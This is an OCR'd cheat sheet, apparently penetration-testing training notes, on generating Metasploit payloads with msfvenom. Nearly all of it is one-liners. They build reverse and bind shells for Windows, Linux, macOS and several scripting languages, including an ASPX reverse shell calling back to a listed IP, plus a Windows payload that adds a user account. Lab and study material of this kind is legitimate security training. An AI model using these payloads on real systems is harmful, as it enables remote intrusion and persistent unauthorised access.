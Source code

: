 ## Msfvenom

MSFVenom is the successor of MSFPayload and MSFEncode, two stand-alone scripts that used to work in conjunction with msfconsole to provide users with highly customizable and hard-to-detect payloads for their exploits.

`XeroCyb3r@htb[/htb]$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=1337 -f aspx > reverse_shell.aspx`

| MSFVenom Payload Generation One-Liner | Description |
|-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|----------------------------------------------------------------|
|    msfvenom -l   payloads                                                                                                                                                                 |    List available payloads                                     |
|    msfvenom -p PAYLOAD --list-options                                                                                                                                                                 |    List payload options                                     |
|    msfvenom -p   PAYLOAD -e ENCODER -f FORMAT -i ENCODE COUNT   LHOST=IP                                                                                                        |    Payload Encoding                                            |
|    msfvenom -p   linux/x86/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f elf  >  shell.elf                                                                                           |    Linux Meterpreter  reverse shell x86 multi stage            |
|    msfvenom -p   linux/x86/meterpreter/bind_tcp RHOST=IP LPORT=PORT -f elf  >  shell.elf                                                                                              |    Linux Meterpreter  bind shell x86 multi stage               |
|    msfvenom -p linux/x64/shell_bind_tcp   RHOST=IP LPORT=PORT -f elf > shell.elf                                                                                                      |    Linux bind shell x64 single stage                           |
|    msfvenom -p linux/x64/shell_reverse_tcp   RHOST=IP LPORT=PORT -f elf > shell.elf                                                                                                   |    Linux reverse shell x64 single stage                        |
|    msfvenom -p   windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe >   shell.exe                                                                                             |    Windows Meterpreter reverse shell                           |
|    msfvenom -p   windows/meterpreter_reverse_http LHOST=IP LPORT=PORT HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -f exe > shell.exe                                                                                             |    Windows Meterpreter http reverse shell                           |
|    msfvenom -p   windows/meterpreter/bind_tcp RHOST= IP LPORT=PORT -f exe >   shell.exe                                                                                               |    Windows Meterpreter bind shell                              |
|    msfvenom -p   windows/shell/reverse_tcp LHOST=IP LPORT=PORT -f exe >   shell.exe                                                                                                   |    Windows CMD Multi Stage                                     |
|    msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT   -f exe >  shell.exe                                                                                                     |    Windows CMD Single Stage                                    |
|    msfvenom -p   windows/adduser USER=hacker PASS=password -f exe > useradd.exe                                                                                                           |    Windows add user                                            |
|    msfvenom -p   osx/x86/shell_reverse_tcp LHOST=IP LPORT=PORT -f macho >   shell.macho                                                                                               |    Mac Reverse Shell                                           |
|    msfvenom -p   osx/x86/shell_bind_tcp RHOST=IP LPORT=PORT -f macho  >  shell.macho                                                                                                  |    Mac Bind shell                                              |
|    msfvenom -p   cmd/unix/reverse_python LHOST=IP LPORT=PORT -f raw >   shell.py                                                                                                      |    Python Shell                                                |
|    msfvenom -p   cmd/unix/reverse_bash LHOST=IP LPORT=PORT -f raw >   shell.sh                                                                                                        |    BASH Shell                                                  |
|    msfvenom -p   cmd/unix/reverse_perl LHOST=IP LPORT=PORT -f raw >   shell.pl                                                                                                        |    PERL Shell                                                  |
|    msfvenom -p   windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f asp >   shell.asp                                                                                             |    ASP Meterpreter shell                                       |
|    msfvenom -p   java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f raw  >  shell.jsp                                                                                                  |    JSP Shell                                                   |